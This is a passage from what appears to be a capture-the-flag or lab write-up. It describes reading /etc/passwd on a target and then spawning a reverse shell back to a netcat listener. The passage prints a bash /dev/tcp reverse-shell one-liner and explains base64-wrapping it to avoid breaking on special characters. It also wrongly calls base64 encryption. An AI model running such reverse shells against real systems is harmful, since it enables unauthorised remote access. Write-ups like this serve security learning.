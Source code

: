 ![Contents of /etc/passwd](./images/git/dumping_etc_passwd.png)

Now that we now we can actually exploit this, we can execute a callback to a netcat listener.

We base64 encrypt the command `bash -i >& /dev/tcp/10.10.14.7/4444 0>&1` and then decrypt and
execute it in a one liner. This is done to avoid messing up the payload with special characters like
`"` or `'`.
